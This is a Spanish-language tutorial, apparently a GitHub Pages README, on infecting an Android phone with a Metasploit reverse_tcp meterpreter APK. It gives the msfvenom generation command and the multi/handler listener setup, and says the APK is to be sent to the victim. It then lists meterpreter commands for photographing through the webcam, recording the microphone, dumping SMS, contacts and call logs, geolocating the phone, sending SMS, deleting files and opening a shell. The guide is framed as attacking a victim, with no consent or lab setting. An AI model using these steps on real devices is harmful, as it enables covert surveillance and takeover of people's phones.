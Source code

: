 ## Crear un payload de Android usando Metasploit.

Buenas, Esto es una guía básica y sencilla para infectar un android a través de una apk infectada con un payload.

La herramienta Metasploit viene instalada por defecto en Kali Linux.

Lo primero, que es un payload?

Un payload es un virus o malware que consiste en realizar una acción (normalmente maliciosa) en un dispositivo que esté conectado dentro de nuestra red o fuera de otra. El fin que tiene un payload es tener control total y remoto del dispositivo que se quiera interceptar en cuestión.

Básicamente, es un virus que nos va a permitir controlar desde una consola un dispositivo.
(Poder hacer fotos, capturas, rastrear llamadas, borrar archivos y todo lo que te puedas imaginar)

¿Qué es Metasploit?

es una herramienta de hacking y pentesting destinada a la explotación y tests de penetración de una manera sencilla. Esta herramienta es conocida por ser como una "navaja suiza" para los hackers y prácticamente todas las distribuciones de Linux lo traen.

## Paso 1
Abrimos la aplicación "Metasploit" y escribimos el comando "msfvenom -p android/meterpreter/reverse_tcp LHOST=xxxx LPORT=xxxx R > name.apk"

El comando se divide en varias partes que son:

msfvenom -> Es la aplicación donde desarrollamos el payload

-p -> Estamos indicando que vamos a realizar un payload

android/meterpreter/reverse_tcp -> Es el tipo de payload que necesitamos

LHOST -> Es la IP que usará la aplicación para comunicarse con nosotros. Si se va a hacer dentro de la red nuestra el valor es 192.168.1.1 pero si es fuera de nuestra red deberá ser nuestra IP Pública

LPORT -> Es el puerto donde se conectará nuestra aplicación. Si la red es interna yo uso el puerto 8080 pero si es en una red exterior deberemos abrir el puerto que deseemos

R > name.apk -> Es la ruta donde almacenaremos el payload y con que nombre. La ruta por defecto (cuando ponemos solo el nombre, es la carpeta personal o la de root).

## Paso 2
Ahora, nuestro payload se ha guardado en la carpeta que tengamos por defecto en Kali Linux. ese archivo .apk es el que tenemos que envíar a la víctima.

Una vez hayamos introducido el payload en el móvil de nuestra víctima ponemos los siguientes comandos:

msfconsole -> Iniciamos la aplicación de monitoreo

use multi/handler

set PAYLOAD android/meterpreter/reverse_tcp -> Indicamos cual payload queremos detectar

set LHOST xxxx -> Indicamos la IP asignada al payload. (la misma que hemos asignado a la hora de generarlo)

set LPORT xxxx -> Indicamos el puerto asignado al payload (el mismo que hemos asignado a la hora de generarlo)

exploit  -> para iniciar el ataque.

Una vez llegados a este punto, si la víctima abre el apk deberemos tener control total sobre el teléfono.

## COMANDOS

Estos son todos los comandos que podemos ejecutar para controlar el android de la víctima.

meterpreter > pwd — Ubicacion actual directorio

meterpreter > cd cache — Cache

meterpreter > cat — Para ver archivos

meterpreter > ls — Listar archivos

meterpreter > upload <archivo> — Subir archivo
  
meterpreter > download <archivo> — Descargar archivo
  
meterpreter > ifconfig — Detalle configuracion redes
  
meterpreter > ps — Lista procesos
  
meterpreter > sysinfo — Informacion de sistema
  
meterpreter > webcam_list — Listado de webcam
  
meterpreter > webcam_snap -i 2 — Capturar imagen de camara 2
  
meterpreter > webcam_stream -l 2 — Streaming video de camara 2
  
meterpreter > record_mic -d 20 — Grabar 20s de audio
  
meterpreter > dump_calllog — Obtener registro de llamadas
  
meterpreter > dump_contacts — Obtener registro de contactos
  
meterpreter > geolocate — Obtener ubicacion del telefono
  
meterpreter > send_sms -d <num> -t text — Enviar SMS (deja huellas)
  
meterpreter > dump_sms — Ver los sms recibidos
  
meterpreter > route_list — Ruteo de direcciones
  
meterpreter > cd /sdcard — Lista archivos de SD Card
  
meterpreter > rm <archivo> — Eliminar archivo
  
meterpreter > rmdir <carpeta> — Eliminar carpeta
  
meterpreter > mkdir <dir> — Crear carpeta
  
meterpreter > search -f *.mp3 — Buscar archivos extension mp3
  
meterpreter > set_audio_mode -m 0 — 0:Silencio 1:Medio 2:Maximo
  
meterpreter > shell — Ejecutar una shell
  
> exit — Finaliza la shell


[Volver](https://minicompi4.github.io)
